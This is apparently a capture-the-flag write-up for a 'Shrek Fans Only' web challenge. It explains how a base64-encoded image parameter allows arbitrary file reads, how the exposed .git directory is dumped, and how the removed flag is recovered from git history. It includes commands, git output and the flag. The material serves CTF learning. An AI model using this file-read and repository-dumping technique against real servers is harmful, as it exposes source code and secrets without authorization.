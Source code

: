 # Shrek Fans Only writeup

## Description

### My Story
A simple web page with a single image. too empty!!

But the url of image is somehow interesting (`http://3.91.17.218/getimg.php?img=aW1nMS5qcGc%3D`).
The `img` parameter value is like Base64 encoded value and it is. I tested by Javascript:
```
atob(decodeURIComponent('aW1nMS5qcGc%3D'))
"img1.jpg"
```

I wrote this simple Bash script, [getimg.sh](./getimg.sh), and tried different pathes and finally found `.git` directory files.
```
./getimg.sh ".git/HEAD"
```

OK! I should try to get `.git` directory data and find the flag in the past commits of repository.

### Exploit Time
I had to write a script that would get all parts of `.git` directory, but I didn't know the structure of this directory. I searched and found [this repository](https://github.com/arthaud/git-dumper) and read some parts of [git-dumper.py](https://github.com/arthaud/git-dumper/blob/master/git-dumper.py) and did:
* mkdir git (I made this diretory to be the parent of `.git` directory)
* I wrote [my-dumper.py](./my-dumper.py) to get important files of `.git` directory.

I have these files now:
```
.git/
├── COMMIT_EDITMSG
├── config
├── description
├── HEAD
├── hooks
│   ├── applypatch-msg.sample
│   ├── commit-msg.sample
│   ├── post-commit.sample
│   ├── post-receive.sample
│   ├── post-update.sample
│   ├── pre-applypatch.sample
│   ├── pre-commit.sample
│   ├── prepare-commit-msg.sample
│   ├── pre-push.sample
│   ├── pre-rebase.sample
│   ├── pre-receive.sample
│   └── update.sample
├── index
├── info
│   └── exclude
├── logs
│   ├── HEAD
│   └── refs
│       ├── heads
│       │   └── master
│       └── remotes
│           └── origin
│               └── master
├── objects
│   └── info
└── refs
    ├── heads
    │   └── master
    └── remotes
        └── origin
            └── master
```
There should be some object files under `objects` direcotry that I don't know the names. So I tried to find out the SHA1s all over `.git` directory and used [getobject.sh script](./getobject.sh) to download and put them in the correct path.
```
$ cat .git/logs/HEAD
0000000000000000000000000000000000000000 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583366532 +0000	commit (initial): initial commit
759be945739b04b63a09e7c02d51567501ead033 976b625888ae0d9ee9543f025254f71e10b7bcf8 Shrek <shrek@shrek.com> 1583366704 +0000	commit: remove flag
976b625888ae0d9ee9543f025254f71e10b7bcf8 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367714 +0000	commit: added more stuff
d421c6aa97e8b8a60d330336ec1e829c8ffd7199 759be945739b04b63a09e7c02d51567501ead033 Shrek <shrek@shrek.com> 1583367723 +0000	checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
759be945739b04b63a09e7c02d51567501ead033 d421c6aa97e8b8a60d330336ec1e829c8ffd7199 Shrek <shrek@shrek.com> 1583367740 +0000	checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master

$ git checkout .
error: unable to read sha1 file of getimg.php (c9566ff84d2e1ae3339bc1e6303d6d3340b5789f)
error: unable to read sha1 file of img1.jpg (0e8104f51db8f9ee08f0966656a3c2307e6cde5c)
error: unable to read sha1 file of index.php (5ab449745b9c25fb0b56c5fbab8d0c986541233e)
Updated 3 paths from the index

$ git fsck --full
broken link from  commit 976b625888ae0d9ee9543f025254f71e10b7bcf8
              to    tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
broken link from  commit 759be945739b04b63a09e7c02d51567501ead033
              to    tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
broken link from  commit d421c6aa97e8b8a60d330336ec1e829c8ffd7199
              to    tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree e5f40adbab45316c0307505386c3e8f113279b95
missing tree aeeea4cfa5afa4dcb70e1d6109790377e7bcec4d
missing tree 2f74a95c3a29776d84041f360e64d6e6b2edc7bd
```

I use `git cherry-pick` command to get pre-'remove flag' files.
```
$ git reflog
d421c6a (HEAD -> master, origin/master) HEAD@{0}: checkout: moving from 759be945739b04b63a09e7c02d51567501ead033 to master
759be94 HEAD@{1}: checkout: moving from master to 759be945739b04b63a09e7c02d51567501ead033
d421c6a (HEAD -> master, origin/master) HEAD@{2}: commit: added more stuff
976b625 HEAD@{3}: commit: remove flag
759be94 HEAD@{4}: commit (initial): initial commit

$ git cherry-pick 759be94
```

and after a conflict I saw `index.php` file.
```
$ cat index.php
<!DOCTYPE HTML>
<html>
<head>
<title>Shrek Fanclub</title>
</head>
<body>
<h1>What are you doing in my swamp?</h1>
<img src="imgproxy.php?img=img1.jpg">
<<<<<<< HEAD
<div>There used to be something here but Donkey won't leave me alone<div>
=======
<div>utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}</div>
>>>>>>> 759be94... initial commit
</body>
</html>
```
:sunglasses: You Can See The Conflict!

Flag: `utflag{honey_i_shrunk_the_kids_HxSvO3jgkj}`

